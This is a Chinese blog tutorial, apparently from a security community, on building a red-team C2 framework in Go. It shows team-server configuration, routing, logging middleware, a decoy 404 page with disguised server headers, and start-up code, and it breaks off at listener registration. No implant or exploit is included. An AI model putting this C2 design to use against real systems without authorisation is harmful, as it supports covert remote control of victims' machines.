# 从零开始手搓C2框架-先知社区

> **来源**: https://xz.aliyun.com/news/18564  
> **文章ID**: 18564

---

写完《从 SRDI 原理剖析到 PE2Shellcode 的实现》后，我一直在琢磨：能不能搭一套真正属于自己的C2框架？思路很简单——先把轮子造出来再说。Havoc、Sliver、Merlin、AdaptixC2和Iom等等优秀的开源项目，因为它们已经经过实战检验，值得我们学习它们的设计思路。我打算先全盘“临摹”，把它们的架构与设计吃透，再慢慢内化成自己的肌肉记忆，然后后期再慢慢消化为自己的开发经验。

至于软件工程那一套，先放一边——我既不是科班出身，也没那么多时间画UML，流程图等等:）所以就直接上手撸代码。但这也导致了一个问题，因为大多数C2服务器都是用go，而我的后端golang基础知识薄弱，以至于服务器的代码写的异常艰难，所以就在下班的时候抽出时间恶补一个月的go-gin的基础知识。

服务器代码主要借鉴 **AdaptixC2**，请多多支持一下这个项目，之后我也会借鉴其他项目的设计思路继续完善！

至于implant语言的选择，我起初是想选C语言的，但考虑到我是第一次开发C2框架最重要的是快速熟悉整个开发流程和实现出一个demo出来，所以我选择了go语言。想必各位师傅有自己擅长的语言，看自己需要来选择吧。后面重构implant我会使用c/c++来实现更高级的防御规避技术以满足高强度的安全对抗场景，而且用c/c++实现的implant是真的小，另外rust实现的也挺小的，但我不会，哈哈哈。

最后是GUI的选择了，为了提升用户的体验感和减轻上手难度，相当一部分的C2会提供GUI版本的客户端，就比如说大名鼎鼎的CobaltStrike。GUI还细分出浏览器和桌面级应用，而且我有跨平台的需要，经过我的深思熟虑，最终选择了QT桌面级应用，理由主要是：桌面应用可以方便的与操作系统交互，而QT的跨平台正是我需要的，当然我也考虑过webview类型的桌面应用，上手写了代码之后感觉写了太难受了所以否掉了（Electron真是害我不浅），不过后面还是要学wails。

我就边抄边写边调式，也算是做出了一个功能齐全的C2框架，但是代码写的太乱了，还需要重构。当然我也会开源，但不是现在。我的想法是先开源部分，等我哪天重回网安了再全部开源，我也不知道自己能不能回来。

好了，废话少数，我就以一个初次开发c2框架的小白提出以下在实现c2过程中的一直在脑中回荡的一些疑问：

1. 服务器怎么启动？怎么实现RPC以供客户端调用？
2. 怎么配置监听器然后让它启动的呢？
3. 如何选择监听器生成相应的implant？
4. implant是怎么完成上线服务器并完成注册的？
5. 怎么给implant下发任务或者说命令？
6. implant又是怎么执行任务的？
7. 任务执行的结果怎么回传给服务器的？

C2是一个复杂的软件工程级的项目，涉及方法面面的知识，由 **Listener**、**TeamServer**、**Implant** 与 **GUI Client** 四大核心组件协同构成。本文作为一篇**介绍性质的**文章，我会将原先实现C2框架的代码量浓缩简化为5%左右，如果你能通过代码解决上述的问题，那么恭喜你完成了C2框架的核心。

什么数据库，GUI客户端，jwt鉴权等实用技术就在这里展开了，我只是在这篇文章中粗略的告诉各位师傅如何完成C2框架的搭建，距离实际的攻防实战还远远不过，还需要加上“亿”点点细节，比如说实现大文件上传与下载、监听器的完整生命周期（监听器的创建、修改、暂停和删除）、Beacon的完整生命周期（Beacon的创建、上线和删除）、浏览器（文件浏览器和进程浏览器）和隧道/代理等，只有实现这些功能，才能真正的作为红队的基础设施。

本文虽然是从零开始，但我认为对新手小白极其不友好，默认各位师傅有较高的开发水平，虽然我的开发水平也不高（+-+）。对于本文与传统的文章不一样，**是一步一步地构建出C2，而不是直接给出完整的项目**，只要能复现出来就算入门c2框架搭建了。

也有看到一些文章说可以搭建一个几百行的c2服务器，只用bof实现大多数后渗透功能，这也是可行的，但这是开发能力有限情况下的妥协产物，并非主流。

# 一、路由注册和服务器启动

## 1.1 Go的面向对象与依赖注入

现在，你随便去github翻找C2项目，你就会发现越来越多的开源C2服务器把后端换成Go+Gin或grpc，并不是为了高并发——几条Shell会话根本吃不满CPU——而是被写完直接之后使用交叉编译出一个单文件丢进不同操作系统都能运行的快感征服。

Go的语法简单、性能像C，标准库自带HTTP/JSON/TLS，Gin再把路由、中间件、参数绑定封装成十几行代码，开发者就能把全部精力放在协议细节而不是环境折腾上。只有写过的的人，才知道，这种顺手带来的生产力。本文不会过多介绍Gin的使用方法，请大家自行查阅网上资料。

先在这里介绍一些服务器的项目结构：

* `controller`：服务器启动、路由注册，一般地，路由处理函数接收来自客户端的数据，完成数据检验、参数传递、调用相应的业务方法以及返回响应给客户端。
* `server`：**New一个服务器**和**真正的业务**的实现。
* `handler`：深度处理listener、Beacon和extension的相关业务
* `middlewares`：中间件的实现，比如说jwt鉴权、日志、错误恢复等
* `utils`：**与业务无关的小工具**
* `profile`：一些全局的配置

在实际的开发过程中，我用到了面向对象和接口与组合，区别于传统的以过程式为主的开发思路，这是因为C2服务器中涉及到大量的自定义结构体，比如说listener、beacon、profile，taskqueue、proxy等等结构体。

为了避免使用全局变量在高并发的条件上数据不一致性、竞争性和代码耦合等问题，有必要用一个东西将这些结构体“装起来”。

另一方面，在handler中有大量的场景需要用到依赖注入，也就是需要用到teamserver实例中的方法去操作其属性（成员）。在go中依赖注入的实现方式有很多种，本项目中使用接口来声明需要用到的teamserver方法。还有另一个原因促使我使用依赖注入的是 `import cycle not allowed` 问题。

举一个简单的例子，当我们通过前端向某一个beacon下发命令执行的任务时，我的调用链是这样的 `controller.BeaconCommandExecute` -> `TeamServer.BeaconCommand` -> `handler.BeaconCommand` -> `BeaconHandler.BeaconCommand` -> `TeamServer.TaskCreate`。

可以看到在BeaconHandler的 `BeaconCommand` 方法里用到TeamServer的 `TaskCreate` 方法，这就涉及到一个依赖的问题。常规的解决方法（静态注入）是

1. **传递TeamServer的指针**：零抽象，一眼能看懂，强耦合。
2. **BeaconHandler里定义TeamServer成员**：强耦合
3. **BeaconHandler里定义TeamServer接口**：BeaconHandler彻底不知道“对面是谁”，只要相关的实例TeamServer实现TaskCreate方法即可，面向接口，解耦最干净。

比如说在 `handler/beacon/types.go` 这样定义

```
type TeamServer interface {  
    TaskCreate(beaconId string, cmdline string, client string, taskData response.TaskData)  
    // other
}

type BeaconHandler struct {  
    ts Teamserver  
}
```

BeaconHandler对象中需要用到TeamServer方法，为了避免在定义BeaconHandler对象时添加TeamServer对象，从而暴露TeamServer所有信息，需要用到接口来拿到需要用到的TeamServer的方法（比如说TaskCreate）。

可能有点难懂，我的建议是多看代码去感受。

下文正式进入代码编写！

## 1.2 服务器配置

创建一个目录，然后输入命令

```
go mod init OneServer
```

在Go项目中引入`profile.json`作为配置文件，能有效实现配置与代码分离，避免硬编码带来的维护成本。

为了在程序运行期间使用到配置信息需要在 `profile/types.go` 定义相应的结构体，通过go的**结构体标签**能够在json反向序列时将数据绑定到相应的成员，这也是Go官方的推荐操作。

`profile.json`

```
{  
    "TeamServer": {  
        "host": "192.168.1.1",  
        "port": 8081,  
        "endpoint": "/api",  
        "password": "123456",  
        "cert": "static/server.crt",  
        "key": "static/server.key",  
        "access_token_live_hours": 12,  
        "refresh_token_live_hours": 168,  
        "Env": "debug"  
    },  
    "ServerResponse": {  
        "status": 404,  
        "headers": {  
            "Content-Type": "text/html; charset=UTF-8",  
            "Server": "AdaptixC2",  
            "Adaptix Version": "v0.6"  
        },  
        "pagepath": "404.html"  
    },  
    "zap": {  
        "level": "info",  
        "max_size": 200,  
        "max_backups": 30,  
        "max_age": 5,  
        "is_console_print": true,  
        "path": "logs/zap.log"  
    }  
}
```

`profile/types.go`

```
package profile  
  
type Profile struct {  
    TeamServerConfig     TeamServerConfig     `json:"TeamServer"`  
    ServerResponseConfig ServerResponseConfig `json:"ServerResponse"`  
    ZapConfig            ZapConfig            `json:"Zap"`  
}  
  
type TeamServerConfig struct {  
    Host                  string   `json:"host"`  
    Port                  int      `json:"port"`  
    Endpoint              string   `json:"endpoint"`  
    Password              string   `json:"password"`  
    Cert                  string   `json:"cert"`  
    Key                   string   `json:"key"`  
    Extenders             []string `json:"extenders"`  
    AccessTokenLiveHours  int      `json:"access_token_live_hours"`  
    RefreshTokenLiveHours int      `json:"refresh_token_live_hours"`  
    Env                   string   `json:"env"`  
}  
  
type ServerResponseConfig struct {  
    Status   int               `json:"status"`  
    Headers  map[string]string `json:"headers"`  
    PagePath string            `json:"pagepath"`  
    Page     string            `json:"-"`  
}  
  
type ZapConfig struct {  
    Level          string `json:"level"`  
    MaxSize        int    `json:"max_size"`  
    MaxBackups     int    `json:"max_backups"`  
    MaxAge         int    `json:"max_age"`  
    IsConsolePrint bool   `json:"is_console_print"`  
    Path           string `json:"path"`  
}
```

`profile/profile.go` 需要一个定义一个`NewProfile`方法返回一个Profile对象，Profile提供一些配置检验的方法，**程序启动阶段**就能把所有非法配置一次性拦下来，避免运行中再因配置不当panic/Fatal，可靠性显著提高。

Validate()是统一入口，依次调用三个子校验函数，如果遇到一个err直接返回并阻止服务器启动：

1. validateTeamServer()：校验C2服务器核心配置
2. validateServerResponse()：校验伪装响应页面配置
3. validateZap()：校验日志系统（Zap是 Uber的日志库）

`profile/profile.go

```
package profile  
  
import (  
    "errors"  
    "fmt"    
    "os"    
    "regexp")  
  
func NewProfile() *Profile {  
    return new(Profile)  
}  
  
func (p *Profile) Validate() error {  
    if err := p.validateTeamServer(); err != nil {  
       return err  
    }  
    if err := p.validateServerResponse(); err != nil {  
       return err  
    }  
    if err := p.validateZap(); err != nil {  
       return err  
    }  
    return nil  
}  
  
func (p *Profile) validateTeamServer() error {  
    c := &p.TeamServerConfig  
    if c.Port < 1 || c.Port > 65535 {  
       return fmt.Errorf("TeamServer.port must be between 1 and 65535 (current %d)", c.Port)  
    }  
    if !ValidUriString(c.Endpoint) {  
       return fmt.Errorf("TeamServer.endpoint must be a valid URI (current %q)", c.Endpoint)  
    }  
    if c.Password == "" {  
       return errors.New("TeamServer.password must be set")  
    }  
    if err := fileMustExist(c.Cert, "TeamServer.cert"); err != nil {  
       return err  
    }  
    if err := fileMustExist(c.Key, "TeamServer.key"); err != nil {  
       return err  
    }  
    if c.AccessTokenLiveHours < 1 {  
       return errors.New("TeamServer.access_token_live_hours must be > 0")  
    }  
    if c.RefreshTokenLiveHours < 1 {  
       return errors.New("TeamServer.refresh_token_live_hours must be > 0")  
    }  
    return nil  
}  
  
func (p *Profile) validateServerResponse() error {  
    if p.ServerResponseConfig.Page != "" {  
       if err := fileMustExist(p.ServerResponseConfig.Page, "ServerResponse.page"); err != nil {  
          return err  
       }  
    }  
    return nil  
}  
  
func (p *Profile) validateZap() error {  
    c := &p.ZapConfig  
    switch c.Level {  
    case "debug", "info", "warn", "error", "dpanic", "panic", "fatal":  
    default:  
       return fmt.Errorf("Zap.level must be one of debug/info/warn/error/dpanic/panic/fatal (current %q)", c.Level)  
    }  
    if c.MaxSize <= 0 {  
       return errors.New("Zap.max_size must be > 0")  
    }  
    if c.MaxBackups < 0 {  
       return errors.New("Zap.max_backups must be >= 0")  
    }  
    if c.MaxAge < 0 {  
       return errors.New("Zap.max_age must be >= 0")  
    }  
    return nil  
}  
  
// ---------- 辅助函数 ----------

func fileMustExist(path, name string) error {  
    if path == "" {  
       return fmt.Errorf("%s must be set", name)  
    }  
    if _, err := os.Stat(path); err != nil {  
       if os.IsNotExist(err) {  
          return fmt.Errorf("%s: file does not exist", name)  
       }  
       return fmt.Errorf("%s: %w", name, err)  
    }  
    return nil  
}  
  
func ValidUriString(s string) bool {  
    re := regexp.MustCompile(`^/(?:[a-zA-Z0-9-_.]+(?:/[a-zA-Z0-9-_.]+)*)?$`)  
    return re.MatchString(s)  
}
```

为了保护客户端和服务器之间的通信安全，大多数C2框架都会采用\*.crt和\*.key启用流量加密，当然 `“crt + key”` 只是起点，在高强度的网络对抗中还使用**双向TLS（mTLS）**、**证书校验**、**防篡改**等安全机制。

生成自签名 RSA-2048 服务器证书（**server.rsa.crt**）和对应的**私钥**（**server.rsa.key**），有效期**10 年**，并且不带密码保护私钥。

```
openssl req -x509 -nodes -newkey rsa:2048 -keyout server.key -out server.crt -days 3650
```

生成\*.crt和\*.key后需要将这两个文件放置到服务器的static目录。

## 1.3 路由注册

`controller/types.go`。TeamServer接口并未定义需要用到的方法，后续会增加。

```
package controller  
  
import (  
    "github.com/gin-gonic/gin"  
)  
  
type TeamServer interface {  
}  
  
type Controller struct {  
    Host     string  
    Port     int  
    Endpoint string  
    Hash     string  
    Cert     string  
    Key      string  
  
    TeamServer TeamServer  
    Engine     *gin.Engine  
}
```

`controller`是**C2服务端的控制器**，负责挂载日志、恢复、伪装（404）等中间件，并给相应的路由绑定路由处理函数，所有client的请求都先通过它再由它分发到具体的业务逻辑，这是传统“MVC”框架中的“**Controller**”部分，也充当了部分服务器的角色。

`controller/controller.go`

```
package controller  
  
import (  
    "OneServer/middlewares"  
    "OneServer/profile"    
    "OneServer/utils/crypt"    
    "github.com/gin-gonic/gin"    
    "os")  
  
func NewController(ts TeamServer, tsProfile profile.Profile) *Controller {  
  
    gin.SetMode(tsProfile.TeamServerConfig.Env)  
  
    if tsProfile.ServerResponseConfig.PagePath != "" {  
       fileContent, _ := os.ReadFile(tsProfile.ServerResponseConfig.PagePath)  
       tsProfile.ServerResponseConfig.Page = string(fileContent)  
    }  
  
    controller := new(Controller)  
    controller.Host = tsProfile.TeamServerConfig.Host  
    controller.Port = tsProfile.TeamServerConfig.Port  
    controller.Endpoint = tsProfile.TeamServerConfig.Endpoint  
    controller.Hash = crypt.SHA256([]byte(tsProfile.TeamServerConfig.Password))  
    controller.Cert = tsProfile.TeamServerConfig.Cert  
    controller.Key = tsProfile.TeamServerConfig.Key  
    controller.TeamServer = ts  
  
    router := gin.Default()
  
    router.Use(middlewares.GinLogger(), middlewares.GinRecovery(true))  
    router.Use(middlewares.Default404Middleware(tsProfile.ServerResponseConfig))  
  
    controller.Engine = router  
    controller.InitRouter()  
  
    return controller  
}  
  
func (c *Controller) InitRouter() {  
  
    apiGroup := c.Engine.Group(c.Endpoint)  
  
    apiGroup.GET("/test", c.Test)  
}
```

`utils/crypt/hash.go` 生成SHA256哈希值

```
package crypt  
  
import (  
    "crypto/sha256"  
    "encoding/hex")  
  
func SHA256(data []byte) string {  
    hash := sha256.New()  
    hash.Write(data)  
    hashBytes := hash.Sum(nil)  
    return hex.EncodeToString(hashBytes)  
}
```

为了下文的1.6的接口测试，需要定义测试的接口以验证服务器是否能正常提供服务。

`controller/test.go`

```
package controller  
  
import (  
    "github.com/gin-gonic/gin"  
    "net/http")  
  
// Test 返回一个固定的 hello oneday 页面，用于 1.5 接口连通性验证  
func (c *Controller) Test(ctx *gin.Context) {  
    ctx.Header("Content-Type", "text/html; charset=utf-8")  
    ctx.String(http.StatusOK,  
       `<!DOCTYPE html>  
<html>  
<head>  
    <title>Test</title></head>  
<body>  
    <h1>hello oneday</h1></body>  
</html>`)  
}
```

## 1.4 中间件与日志器

gin框架允许我们自定义中间件，**以“洋葱模型”灵活地插入任何横切逻辑**，而无需改动业务代码本身。当接收到client的路由请求时，Gin会按照使用中间件的顺序依次调用，最后再处理业务逻辑。

controller用到了**GinLogger、GinRecovery、404**中间件，为了实现方便我并未添加jwt鉴权中间件，有需要的师傅自行添加，或者等我后续开源完整的C2框架。

这是我从别的项目找的**生产级Gin中间件**，用**Zap**做日志，功能上完全替代了 `gin.Logger()` 和 `gin.Recovery()`，而且更强大、更灵活。

* `GinLogger`：是一个**轻量级、结构化、可观测的HTTP请求日志中间件**，用Zap输出到控制台（可通profile.json关闭）和日志中，包含 **状态码、耗时、IP、UA** 等关键信息，方便你快速定位问题、做性能分析。
* `GinRecovery`：任何panic 都会被捕获，且**不宕机**，能打印堆栈。

`middlewares/logger.go`如果看不懂只管用就完事了

```
package middlewares  
  
import (  
    "OneServer/logs"  
    "github.com/gin-gonic/gin"    
    "go.uber.org/zap"    
    "net"    
    "net/http"    
    "net/http/httputil"    
    "os"    
    "runtime/debug"    
    "strings"    
    "time")  
  
// GinLogger 是一个 Gin 中间件，用于记录请求日志。  
// 该中间件会在每次请求结束后，使用 Zap 日志记录请求信息。  
// 通过此中间件，可以方便地追踪每个请求的情况以及性能。  
func GinLogger() gin.HandlerFunc {  
    return func(c *gin.Context) {  
       // 记录请求开始时间  
       start := time.Now()  
  
       // 获取请求的路径和查询参数  
       path := c.Request.URL.Path  
       query := c.Request.URL.RawQuery  
  
       // 继续执行后续的处理  
       c.Next()  
  
       // 计算请求处理的耗时  
       cost := time.Since(start)  
  
       // 使用 Zap 记录请求日志  
       logs.Logger.Info(path,  
          // 记录响应状态码  
          zap.Int("status", c.Writer.Status()),  
          // 记录请求方法  
          zap.String("method", c.Request.Method),  
          // 记录请求路径  
          zap.String("path", path),  
          // 记录查询参数  
          zap.String("query", query),  
          // 记录客户端 IP          zap.String("ip", c.ClientIP()),  
          // 记录 User-Agent 信息  
          zap.String("user-agent", c.Request.UserAgent()),  
          // 记录错误信息（如果有）  
          zap.String("errors", c.Errors.ByType(gin.ErrorTypePrivate).String()),  
          // 记录请求耗时  
          zap.Duration("cost", cost),  
       )  
    }  
}  
  
// GinRecovery 是一个 Gin 中间件，用于捕获和处理请求中的 panic 错误。  
// 该中间件的主要作用是确保服务在遇到未处理的异常时不会崩溃，并通过日志系统提供详细的错误追踪。  
func GinRecovery(stack bool) gin.HandlerFunc {  
    return func(c *gin.Context) {  
       // 使用 defer 确保 panic 被捕获，并且处理函数会在 panic 后执行  
       defer func() {  
          // 检查是否发生了 panic 错误  
          if err := recover(); err != nil {  
             // 检查是否是连接被断开的问题（如 broken pipe），这些错误不需要记录堆栈信息  
             var brokenPipe bool  
             if ne, ok := err.(*net.OpError); ok {  
                if se, ok := ne.Err.(*os.SyscallError); ok {  
                   if strings.Contains(strings.ToLower(se.Error()), "broken pipe") || strings.Contains(strings.ToLower(se.Error()), "connection reset by peer") {  
                      brokenPipe = true  
                   }  
                }  
             }  
  
             // 获取请求信息，包括请求体等  
             httpRequest, _ := httputil.DumpRequest(c.Request, false)  
  
             // 如果是 broken pipe 错误，则只记录错误信息，不记录堆栈信息  
             if brokenPipe {  
                logs.Logger.Error(c.Request.URL.Path,  
                   zap.Any("error", err),  
                   zap.String("request", string(httpRequest)),  
                )  
                // 由于连接断开，不能再向客户端写入状态码  
                _ = c.Error(err.(error)) // nolint: errcheck  
                c.Abort()                // 中止请求处理  
                return  
             }  
  
             // 如果是其他类型的 panic，根据 `stack` 参数决定是否记录堆栈信息  
             if stack {  
                // 记录详细的错误和堆栈信息  
                logs.Logger.Error("[Recovery from panic]",  
                   zap.Any("error", err),  
                   zap.String("request", string(httpRequest)),  
                   zap.String("stack", string(debug.Stack())),  
                )  
             } else {  
                // 只记录错误信息，不记录堆栈  
                logs.Logger.Error("[Recovery from panic]",  
                   zap.Any("error", err),  
                   zap.String("request", string(httpRequest)),  
                )  
             }  
             // 返回 500 错误状态码，表示服务器内部错误  
             c.AbortWithStatus(http.StatusInternalServerError)  
          }  
       }()  
       // 继续执行后续的请求处理  
       c.Next()  
    }  
}
```

`GinLogger` 和 `GinRecovery` 两个中间件都用到Zap日志，`Zap` 是 **Uber 开源的高性能、结构化日志库**，专为**Go**设计，日志字段以 **JSON** 形式输出。不用搞懂，直接用就完事了。

`logs/zapLogger.go`

```
package logs  
  
import (  
    "OneServer/profile"  
    "go.uber.org/zap"    
    "go.uber.org/zap/zapcore"    
    "gopkg.in/natefinch/lumberjack.v2"    
    "log"    
    "os")  
  
var Logger *zap.Logger  
  
// InitLogger 初始化并返回一个基于配置设置的新 zap.Logger 实例  
func InitLogger(zapCfg profile.ZapConfig) *zap.Logger {  
  
    // 创建一个用于日志输出的 
    writeSyncer    writeSyncer := getLogWriter(zapCfg.Path, zapCfg.MaxSize, zapCfg.MaxBackups, zapCfg.MaxAge)  
  
    // 如果配置了控制台输出，则添加控制台输出  
    if zapCfg.IsConsolePrint {  
       writeSyncer = zapcore.NewMultiWriteSyncer(writeSyncer, zapcore.AddSync(os.Stdout))  
    }  
  
    // 创建日志格式化的编码器  
    encoder := getEncoder()  
  
    // 根据配置确定日志级别  
    var logLevel zapcore.Level  
  
    if err := logLevel.UnmarshalText([]byte(zapCfg.Level)); err != nil {  
       log.Fatalf("Failed to parse logs level: %v", err)  
    }  
  
    // 创建核心和日志实例  
    core := zapcore.NewCore(encoder, writeSyncer, logLevel)  
    Logger = zap.New(core, zap.AddCaller())  
  
    return Logger  
}  
  
// getLogWriter 返回一个 zapcore.WriteSyncer，该写入器利用 lumberjack 包，实现日志的滚动记录  
func getLogWriter(filename string, maxSize, maxBackups, maxAge int) zapcore.WriteSyncer {  
    lumberJackLogger := &lumberjack.Logger{  
       Filename:   filename,   // 日志文件的位置  
       MaxSize:    maxSize,    // 在进行切割之前，日志文件的最大大小（以MB为单位）  
       MaxBackups: maxBackups, // 保留旧文件的最大个数  
       MaxAge:     maxAge,     // 保留旧文件的最大天数  
    }  
    return zapcore.AddSync(lumberJackLogger)  
}  
  
// getEncoder 返回一个为生产日志配置的 JSON 编码器  
func getEncoder() zapcore.Encoder {  
    encoderConfig := zap.NewProductionEncoderConfig()  
    encoderConfig.EncodeTime = zapcore.ISO8601TimeEncoder  
    encoderConfig.TimeKey = "time"  
    encoderConfig.EncodeLevel = zapcore.CapitalLevelEncoder  
    encoderConfig.EncodeDuration = zapcore.SecondsDurationEncoder  
    encoderConfig.EncodeCaller = zapcore.ShortCallerEncoder  
    return zapcore.NewJSONEncoder(encoderConfig)  
}
```

最后一个中间件，用于如果访问到了不存在的接口时直接返回404页面

`404.html`

```
<!DOCTYPE html>  
<html lang="en">  
<head>  
    <meta charset="UTF-8" />  
    <meta name="viewport" content="width=device-width,initial-scale=1.0" />  
    <title>404 | AdaptixC2</title>  
    <style>        :root {  
            --bg: #0a0a0a;  
            --accent: #00f0ff;  
            --text: #ffffff;  
            --error: #ff005c;  
        }  
  
        * {  
            margin: 0;  
            padding: 0;  
            box-sizing: border-box;  
        }  
  
        body {  
            height: 100vh;  
            display: flex;  
            align-items: center;  
            justify-content: center;  
            background: linear-gradient(135deg, var(--bg) 0%, #111 100%);  
            font-family: "Segoe UI", Arial, sans-serif;  
            color: var(--text);  
            overflow: hidden;  
            position: relative;  
        }  
  
        /* 背景浮动粒子 */        .particles {  
            position: absolute;  
            width: 100%;  
            height: 100%;  
            pointer-events: none;  
            z-index: 0;  
        }  
        .particles span {  
            position: absolute;  
            width: 2px;  
            height: 2px;  
            background: var(--accent);  
            border-radius: 50%;  
            opacity: 0.5;  
            animation: float 12s linear infinite;  
        }  
        @keyframes float {  
            0% { transform: translateY(100vh) scale(1); opacity: 0; }  
            10% { opacity: 1; }  
            90% { opacity: 1; }  
            100% { transform: translateY(-100px) scale(0); opacity: 0; }  
        }  
  
        /* 主内容卡片 */        .card {  
            position: relative;  
            z-index: 1;  
            text-align: center;  
            padding: 60px 80px;  
            background: rgba(255, 255, 255, 0.03);  
            border: 1px solid rgba(0, 240, 255, 0.2);  
            border-radius: 12px;  
            backdrop-filter: blur(10px);  
            box-shadow: 0 0 30px rgba(0, 240, 255, 0.15);  
            animation: pulse 2s ease-in-out infinite alternate;  
        }  
        @keyframes pulse {  
            from { box-shadow: 0 0 20px rgba(0, 240, 255, 0.15); }  
            to   { box-shadow: 0 0 40px rgba(0, 240, 255, 0.35); }  
        }  
  
        .card h1 {  
            font-size: 72px;  
            font-weight: 900;  
            letter-spacing: 4px;  
            background: linear-gradient(90deg, var(--error), var(--accent));  
            -webkit-background-clip: text;  
            -webkit-text-fill-color: transparent;  
            margin-bottom: 10px;  
        }  
  
        .card p {  
            font-size: 18px;  
            opacity: 0.8;  
            margin-bottom: 30px;  
        }  
  
        .card a {  
            display: inline-block;  
            padding: 12px 28px;  
            border: 1px solid var(--accent);  
            border-radius: 30px;  
            color: var(--accent);  
            font-weight: 600;  
            text-decoration: none;  
            transition: background 0.3s, color 0.3s;  
        }  
        .card a:hover {  
            background: var(--accent);  
            color: var(--bg);  
        }  
    </style>  
</head>  
<body>  
  
<!-- 浮动粒子 -->  
<div class="particles" id="particles"></div>  
  
<!-- 主卡片 -->  
<div class="card">  
    <h1>404</h1>  
    <p>You need to enter the correct connection details.</p>  
    <a href="/">Back to Home</a>  
</div>  
  
<!-- 动态生成粒子 -->  
<script>  
    const particles = document.getElementById('particles');  
    for (let i = 0; i < 60; i++) {  
        const span = document.createElement('span');  
        span.style.left = Math.random() * 100 + '%';  
        span.style.animationDelay = Math.random() * 12 + 's';  
        span.style.animationDuration = 8 + Math.random() * 10 + 's';  
        particles.appendChild(span);  
    }  
</script>  
</body>  
</html>
```

`middlewares/404.go`访问不存在的路由时返回自定义的404hmtl页面

```
package middlewares  
  
import (  
    "OneServer/profile"  
    "github.com/gin-gonic/gin")  
  
func Default404Middleware(config profile.ServerResponseConfig) gin.HandlerFunc {  
    return func(c *gin.Context) {  
       if len(c.Errors) > 0 && !c.Writer.Written() {  
          for header, value := range config.Headers {  
             c.Header(header, value)  
          }  
          c.String(config.Status, config.Page)  
          c.Abort()  
          return  
       }  
  
       c.Next()  
  
       if len(c.Errors) > 0 && !c.Writer.Written() {  
          for header, value := range config.Headers {  
             c.Header(header, value)  
          }  
          c.String(config.Status, config.Page)  
       }  
    }  
}
```

## 1.5 服务器启动

启动流程：

1. 通过NewTeamServer返回一个TeamServer对象
2. **TeamServer.Start**：创建一个goroutine启动服务器，传递 `stopped` 通道的地址，以便 `StartServer` 方法可以在接收到停止信号时优雅地关闭服务。
3. **Controller.StartServer**：用于启动 HTTPS服务并处理服务。

`server/types.go`：定义一个TeamServer结构体，负责管理配置、启动HTTP服务、管理监听器和Beacon，以及协调业务逻辑

```
package server  
  
import (  
    "OneServer/controller"  
    "OneServer/handler"    
    "OneServer/profile"    
    "OneServer/utils/safeType")  
  
type TeamServer struct {  
    Profile    *profile.Profile  
    Controller *controller.Controller  
    Listeners  safeType.Map  
    Beacons    safeType.Map  
    Handler    *handler.Handler  
}
```

`utils/safeType/map.go` 加上“锁”的map类型，避免资源竞争而导致的安全问题

```
package safeType  
  
import (  
    "sync"  
)  
  
type Map struct {  
    mutex sync.RWMutex  
    m     map[string]interface{}  
}  
  
func NewMap() Map {  
    return Map{  
       m: make(map[string]interface{}),  
    }  
}  
  
func (s *Map) Contains(key string) bool {  
    s.mutex.RLock()  
    defer s.mutex.RUnlock()  
    _, exists := s.m[key]  
    return exists  
}  
  
func (s *Map) Put(key string, value interface{}) {  
    s.mutex.Lock()  
    defer s.mutex.Unlock()  
    s.m[key] = value  
}  
  
func (s *Map) Get(key string) (interface{}, bool) {  
    s.mutex.RLock()  
    defer s.mutex.RUnlock()  
    value, exists := s.m[key]  
    return value, exists  
}  
  
func (s *Map) Delete(key string) {  
    s.mutex.Lock()  
    defer s.mutex.Unlock()  
    delete(s.m, key)  
}  
  
func (s *Map) GetDelete(key string) (interface{}, bool) {  
    s.mutex.Lock()  
    defer s.mutex.Unlock()  
  
    if value, exists := s.m[key]; exists {  
       delete(s.m, key)  
       return value, true  
    }  
    return nil, false  
}  
  
func (s *Map) Len() int {  
    s.mutex.RLock()  
    defer s.mutex.RUnlock()  
    return len(s.m)  
}  
  
func (s *Map) ForEach(f func(key string, value interface{}) bool) {  
    s.mutex.RLock()  
    copyMap := make(map[string]interface{}, len(s.m))  
    for k, v := range s.m {  
       copyMap[k] = v  
    }  
    s.mutex.RUnlock()  
  
    for key, value := range copyMap {  
       if !f(key, value) {  
          break  
       }  
    }  
}  
  
func (s *Map) DirectLock() {  
    s.mutex.RLock()  
}  
  
func (s *Map) DirectUnlock() {  
    s.mutex.RUnlock()  
}  
  
func (s *Map) DirectMap() map[string]interface{} {  
    return s.m  
}  
  
func (s *Map) CutMap() map[string]interface{} {  
    s.mutex.Lock()  
    defer s.mutex.Unlock()  
  
    oldMap := s.m  
    s.m = make(map[string]interface{})  
  
    return oldMap  
}
```

`handler/types.go` 后续再补充需要用到的接口方法

```
package handler  
   
type ListenerHandler interface {  
}  
  
type BeaconHandler interface {  
}  
  
type Handler struct {  
    ListenerHandlers map[string]ListenerHandler  
    BeaconHandlers   map[string]BeaconHandler  
}
```

`server/teamserver.go`：包含NewTeamServer、SetProfile、Start方法

```
package server  
  
import (  
    "OneServer/controller"  
    "OneServer/handler"    
    "OneServer/logs"    
    "OneServer/profile"    
    "OneServer/utils/safeType"    
    "encoding/json"    
    "go.uber.org/zap"    
    "os")  
  
func NewTeamServer() *TeamServer {  
    ts := &TeamServer{  
       Profile:   profile.NewProfile(),  
       Listeners: safeType.NewMap(),  
       Beacons:   safeType.NewMap(),  
    }  
  
    ts.Handler = handler.NewHandler(ts)  
    return ts  
  
}  
  
func (ts *TeamServer) SetProfile(path string) error {  
  
    fileContent, err := os.ReadFile(path)  
    if err != nil {  
       return err  
    }  
  
    err = json.Unmarshal(fileContent, &ts.Profile)  
    if err != nil {  
       return err  
    }  
  
    return nil  
}  
  
func (ts *TeamServer) Start() {  
  
    var stopped = make(chan bool) // 初始化 stopped 通道  
  
    ts.Controller = controller.NewController(ts, *ts.Profile)  
  
    go ts.Controller.StartServer(&stopped)  
  
    logs.Logger.Info("OneServer started -> ", zap.String("address",  
       ts.Profile.TeamServerConfig.Host),  
       zap.Int("port", ts.Profile.TeamServerConfig.Port))  
  
    // 等待服务启动或超时  
    <-stopped  
    logs.Logger.Info("Server stopped gracefully")  
  
    // 关闭服务器  
    os.Exit(0)  
}
```

`handler/handler.go`：定义了一个 `NewHandler` 函数初始化了一个 `Handler` 实例，并注册了 `Beacon-HTTP` 监听器处理器和 `Beacon` 处理器，为后续的业务逻辑处理做好了准备。

```
package handler  
  
import (  
    "OneServer/handler/beacon"  
    "OneServer/handler/listener")  
  
func NewHandler(teamserver any) *Handler {  
    h := &Handler{  
       ListenerHandlers: make(map[string]ListenerHandler),  
       BeaconHandlers:   make(map[string]BeaconHandler),  
    }  
  
    // 创建并注册 Beacon-HTTP 监听器  
